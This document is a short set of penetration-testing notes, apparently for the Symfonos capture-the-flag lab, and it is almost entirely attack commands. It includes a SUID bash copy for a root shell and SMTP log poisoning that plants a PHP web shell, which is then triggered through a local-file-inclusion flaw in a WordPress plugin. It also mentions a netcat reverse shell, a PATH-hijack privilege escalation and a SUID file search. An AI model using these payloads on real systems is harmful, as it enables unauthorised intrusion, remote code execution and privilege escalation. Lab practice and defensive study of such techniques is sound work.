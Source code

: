 ### Local shell payload
```

			import os

			os.system('cp /bin/bash /tmp/bash')
			os.system('chmod +s /tmp/bash')

this will create a bash with suid bit set in /tmp folder
		do
			./bash -p
		to get root shell



```

#### RCE through smtp
```
we connect to port 25 via telnet
	telnet [host] [port]

send one mail with the payload
	do as follows
		MAIL FRON: <qewr>
		RCPT TO: Helios
		data
		<?php system($_GET['cmd']); ?>
		.
	now close the terminal

now go to LFI link and give in 1 extra parameter "cmd" like this
	http://symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/mail/helios&cmd=id

open nc inject reverse shell payload in above link and wait for callback

```

#### Privledge escalation through suid binary and path overriding as binary name was used
```
	echo -n "/bin/sh" > binary
	chmod 755 binary
	export PATH=/tmp:$PATH
	/location/of/suid/binary

```

### Suid binary find
```

  find /opt -perm -u=s -type f 2>/dev/null

```
